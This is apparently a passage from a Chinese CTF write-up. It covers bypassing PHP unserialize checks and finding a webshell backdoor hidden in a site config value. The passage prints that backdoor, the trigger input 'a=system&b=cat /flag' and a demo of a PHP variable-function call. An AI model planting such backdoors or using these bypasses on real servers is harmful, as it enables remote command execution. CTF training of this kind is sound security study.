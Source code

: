 >  a:1:{i:0;..........} 

绕过第一个检测 

>  (substr($data, 0, 2) !== 'O:' 

利用`+`绕过第二个检测 

>  !preg_match('/O:\d:\/', $data) 

### web2

#### 命令执行1

还是用D盾扫描下

![](image/28.png)

`1.php`和`2.php`都存在漏洞

代码如下:

> 'SITE_DOMAINS'                  => '123sadccv=>1)&&($_GET[a]($_GET[b]));exit();$a=array(a', //网站的其他域名

有webshell

> (@_GET[a]($_GET[b]))

触发方式:

> a=system&b=cat /flag

演示下:

```php
<?php
$a='system';
$b='dir';
$a($b);
?>
```
